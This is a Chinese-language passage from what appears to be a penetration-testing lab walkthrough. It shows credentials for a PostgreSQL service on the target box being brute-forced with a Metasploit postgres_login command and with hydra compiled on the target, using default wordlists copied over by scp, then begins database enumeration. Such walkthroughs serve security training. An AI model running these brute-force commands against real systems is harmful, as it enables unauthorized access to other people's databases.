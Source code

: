 使用 msf 的 postgres\_login 模块爆破用户名密码，

```bash
msfconsole -q -x 'use scanner/postgres/postgres_login;set rhost 127.0.0.1;set rport 5557;run'
```

此外也可以利用靶机上存在的 hydra 进行爆破

```bash
//kali
scp /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt webmin@192.168.50.10:~
scp /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt webmin@192.168.50.10:~

//靶机，靶机的 hydra 需要编译
tar -xzf post.tar.gz
./configure
make
make install (会提示权限不足，可忽略)

./post/hydra -L postgres_default_user.txt -P postgres_default_pass.txt postgres://127.0.0.1
```

[![](assets/1704158282-b75299ddf19097c2ab0431d9093a14cb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010458-3b5368d4-a5a3-1.png)

> \[+\] 127.0.0.1:5557 - Login Successful: postgres:postgres@template1

## PostgreSQL 信息枚举

直接在靶机切换 postgres 用户提示授权失败。既然端口已经做了映射，可以在 kali 利用 pg\_dumpall 用来提取我们可以访问的所有数据库
